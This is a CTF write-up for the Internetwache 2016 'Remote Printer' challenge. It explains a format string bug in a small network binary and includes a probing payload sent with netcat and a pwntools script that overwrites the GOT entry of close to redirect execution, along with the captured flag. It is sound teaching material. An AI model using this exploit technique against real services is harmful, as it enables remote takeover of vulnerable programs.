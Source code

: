 ```yaml
---
layout: post
title:  "Internetwache CTF 2016: Remote Printer (exp 80)"
author: f0rki
categories: writeup
tags: [cat/pwn, tool/pwntools, vuln/fmtstr]
---
```


* **Category:** Exploit
* **Points:** 80
* **Description:**

> Printer are very very important for offices. Especially for remote printing.
> My boss told me to build a tool for that task.

## Write-up

So this remote printer takes an address and a port and connects to the remote
service. It then reads some data and outputs it. Well let's just point it to
itself:

```
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:12377
Thank you, I'm trying to print 127.0.0.1:12377 now!
This is a remote printer!
```

The last line is the input from itself. So we probably need a listener
reachable via the internet.

The binary itself is rather small, it just consists of the `main` function and
`0x08048786`. The main function uses scanf to read the ip address and port and
calls the second function which connects to the given ip address and port.
Then receives up to `0x2000` bytes of data and then prints it. Let's take a
look at the later one:

```
0x08048815      6a00           push 0
0x08048817      6800200000     push 0x2000
0x0804881c      8d85e4dfffff   lea eax, [ebp-local_2055]
0x08048822      50             push eax
0x08048823      ff75f4         push dword [ebp - 0xc]
0x08048826      e885fdffff     call sym.imp.recv         ; recv 0x2000 to stack

[...]

0x08048844      83ec0c         sub esp, 0xc
0x08048847      8d85e4dfffff   lea eax, [ebp-local_2055]
0x0804884d      50             push eax
0x0804884e      e88dfcffff     call sym.imp.printf      ; input
0x08048853      83c410         add esp, 0x10
0x08048856      83ec0c         sub esp, 0xc
0x08048859      ff75f4         push dword [ebp - 0xc]
0x0804885c      e85ffdffff     call sym.imp.close
0x08048861      83c410         add esp, 0x10
0x08048864      90             nop
```

We can see that the buffer, which is located on the stack, is printed using
`printf`... oh. Classic format string vulnerability. Should be easy.

```
$ python2 -c 'print "ABCD" + ".%p"*100' | nc -vv -l -p 4444
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:X.X.X.X
Enter port:4444
Thank you, I'm trying to print X.X.X.X:4444 now!
ABCD.0xffffbcec.0x2000.(nil).(nil).(nil).(nil).0x44434241.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0xa.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil)
```

So it's definitely a format string vulnerability and we can see that at offset
7 is the start of our format string. So that's where we can put the addresses
we want to write to.

We can see that immediately after the call to `printf` there is a call to
`close`. So we do the usual: Overwrite `GOT` entry of `close` with something of
our liking to take over control flow. Because the organizers were nice they
left us some dead code lying around that will print us the flag at
`0x08048867`. So we'll just redirect control flow there.

```python
from pwn import *  # NOQA

velf = ELF("./RemotePrinter")
gotclose = velf.got["close"]

# uses two 2-byte writes to keep printed garbage at minimum
fmtstr = p32(gotclose)
fmtstr += p32(gotclose + 2)
target = 0x08048867
x = 0x0804 - 8
y = 0x8867 - 8 - x
fmtstr += "%{}c%8$hn%{}c%7$hn".format(x, y)

log.info("trying to write to got entry @ {}".format(hex(gotclose)))
log.info("overwriting with function {}".format(hex(target)))

log.info("using format string: \n" + hexdump(fmtstr))

with open("./payload", "wb") as f:
    f.write(fmtstr)
    f.write("\n")

# use with
# cat payload | nc -v -l -p 4444
```

And we have the flag:

```
YAY, FLAG: IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
```
